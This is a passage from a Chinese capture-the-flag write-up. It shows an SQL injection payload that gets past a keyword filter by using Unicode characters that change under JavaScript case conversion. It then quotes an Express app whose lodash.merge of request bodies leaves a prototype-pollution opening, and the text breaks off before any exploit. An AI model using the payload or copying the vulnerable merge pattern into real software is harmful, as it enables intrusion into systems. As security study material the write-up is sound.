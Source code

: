 如何构造这句来查询flag，开始看到题一味着去想盲注的办法了，后来想明白一点，在注入里，没有select是不可能去别的表里拿数据的，而题目一开始很明确的表明flag在flag表中。

所以问题就又回到了最初的地方，如何绕过safekeyword的限制。

ph师傅曾经写过一篇文章
[https://www.leavesongs.com/HTML/javascript-up-low-ercase-tip.html](https://www.leavesongs.com/HTML/javascript-up-low-ercase-tip.html)

在js中部分字符会在toLowerCase和toUpperCase处理的时候发生难以想象的变化

```
"ı"、"ſ"这两个字符在变大写的时候会变成I和S
"K"这个字符在变小写的时候会变成k
```

用在这里刚好合适不过了。

```
username=ddog
password=' unıon ſelect 1,flag,3 where '1'='1
```

# hard - thejs

javascript真难....

关键代码以及注释如下
```
const fs = require('fs')
const express = require('express')
const bodyParser = require('body-parser')
const lodash = require('lodash')
const session = require('express-session')
const randomize = require('randomatic')

const app = express()
app.use(bodyParser.urlencoded({extended: true})).use(bodyParser.json()) //对post请求的请求体进行解析
app.use('/static', express.static('static'))
app.use(session({
    name: 'thejs.session',
    secret: randomize('aA0', 16), // 随机数
    resave: false,
    saveUninitialized: false
}))
app.engine('ejs', function (filePath, options, callback) { // 模板引擎
    fs.readFile(filePath, (err, content) => {   //读文件 filepath
        if (err) return callback(new Error(err))
        let compiled = lodash.template(content)  //模板化
        let rendered = compiled({...options})   //动态引入变量

        return callback(null, rendered)
    })
})
app.set('views', './views')
app.set('view engine', 'ejs')

app.all('/', (req, res) => {
    let data = req.session.data || {language: [], category: []}
    if (req.method == 'POST') {
        data = lodash.merge(data, req.body) // merge 合并字典
        req.session.data = data
    }
    
    res.render('index', {
        language: data.language, 
        category: data.category
    })
```